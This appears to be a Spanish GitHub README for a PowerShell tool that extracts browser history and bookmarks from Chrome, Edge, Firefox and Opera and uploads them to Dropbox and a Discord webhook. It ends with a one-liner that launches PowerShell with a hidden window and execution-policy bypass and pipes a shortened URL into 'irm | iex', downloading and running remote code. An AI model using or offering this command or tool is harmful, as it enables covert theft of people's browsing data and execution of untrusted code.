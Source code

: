 # Script de Extracción de Datos del Navegador

Este script de PowerShell está diseñado para extraer datos de navegación (historial y marcadores) de varios navegadores web y subir los datos a Dropbox y Discord.

## Características

- Soporta la extracción desde Chrome, Edge, Firefox y Opera.
- Extrae tanto el historial de navegación como los marcadores.
- Sube los datos extraídos a Dropbox.
- Opcionalmente envía los datos a un webhook de Discord.

## Requisitos

- PowerShell
- Conexión a Internet
- Token de API de Dropbox
- URL del webhook de Discord

## Uso

### Parámetros

- **Browser (Navegador)**: Especifica el navegador del cual extraer los datos. Los valores soportados son `chrome`, `edge`, `firefox` y `opera`.
- **DataType (Tipo de Datos)**: Especifica el tipo de datos a extraer. Los valores soportados son `history` (historial) y `bookmarks` (marcadores).

### Ejemplo

### powershell
Get-BrowserData -Browser "chrome" -DataType "history"
Get-BrowserData -Browser "edge" -DataType "bookmarks"
Instalación

  ##Clona el repositorio:

    bash

git clone https://github.com/tuusuario/extraccion-datos-navegador.git
cd extraccion-datos-navegador
Detalles del Script

El script incluye las siguientes funciones:

    Get-BrowserData: Extrae datos del navegador especificado y tipo de datos.
    DropBox-Upload: Sube los datos extraídos a Dropbox.
    Upload-Discord: Envía los datos a un webhook de Discord.

Nota

Para que las funciones de subida a Dropbox y Discord funcionen correctamente, asegúrate de configurar las variables de entorno db (token de Dropbox) y dc (URL del webhook de Discord).

Asegúrate de tener los permisos necesarios para ejecutar scripts de PowerShell en tu sistema.
powershell -w h -ep bypass $dc='';$db='';irm https://n9.cl/mrflipper2 | iex


